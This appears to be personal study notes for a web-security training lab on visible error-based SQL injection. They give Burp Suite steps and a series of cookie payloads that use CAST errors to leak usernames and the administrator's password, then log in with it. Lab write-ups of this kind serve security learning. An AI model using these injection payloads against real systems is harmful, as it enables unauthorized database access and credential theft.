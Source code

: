 You can use the `CAST()` function to achieve this:
- It enables you to convert one data type to another.
- For example, imagine a query containing the following statement:
  `CAST((SELECT example_column FROM example_table) AS int)`
- Often, the data that you're trying to read is a string. 
- Attempting to convert this to an incompatible data type, such as an `int`, may cause an error similar to the following:
  `ERROR: invalid input syntax for type integer: "Example data"`

This type of query may also be useful if a character limit prevents you from triggering conditional responses.

###### Visible error-based SQL injection
1. Using Burp's built-in browser, explore the lab functionality.
2. Go to the **Proxy > HTTP history** tab and find a `GET /` request that contains a `TrackingId` cookie.
3. In Repeater, append a single quote to the value of your `TrackingId` cookie and send the request.
   `TrackingId=ogAZZfxtOKUELbuJ'`
4. In the response, notice the verbose error message. 
   This discloses the full SQL query, including the value of your cookie. It also explains that you have an unclosed string literal. 
   Observe that your injection appears inside a single-quoted string.
5. In the request, add comment characters to comment out the rest of the query, including the extra single-quote character that's causing the error:
   `TrackingId=ogAZZfxtOKUELbuJ'--`
6. Send the request. Confirm that you no longer receive an error. 
   This suggests that the query is now syntactically valid.
7. Adapt the query to include a generic `SELECT` subquery and cast the returned value to an `int` data type:
   `TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--`
8. Send the request. 
   Observe that you now get a different error saying that an `AND` condition must be a boolean expression.
9. Modify the condition accordingly. For example, you can simply add a comparison operator (`=`) as follows:
   `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`
10. Send the request. 
    Confirm that you no longer receive an error. 
    This suggests that this is a valid query again.
1. Adapt your generic `SELECT` statement so that it retrieves usernames from the database:
   `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--`
12. Observe that you receive the initial error message again.
	Notice that your query now appears to be truncated due to a character limit. 
	As a result, the comment characters you added to fix up the query aren't included.
1. Delete the original value of the `TrackingId` cookie to free up some additional characters. Resend the request.
   `TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
14. Notice that you receive a new error message, which appears to be generated by the database. 
    This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row.
15. Modify the query to return only one row:
    `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
16. Send the request. 
    Observe that the error message now leaks the first username from the `users` table:
    `ERROR: invalid input syntax for type integer: "administrator"`
17. Now that you know that the `administrator` is the first user in the table, modify the query once again to leak their password:
    `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
    ![[Pasted image 20240910115547.png]]
18. Log in as `administrator` using the stolen password to solve the lab
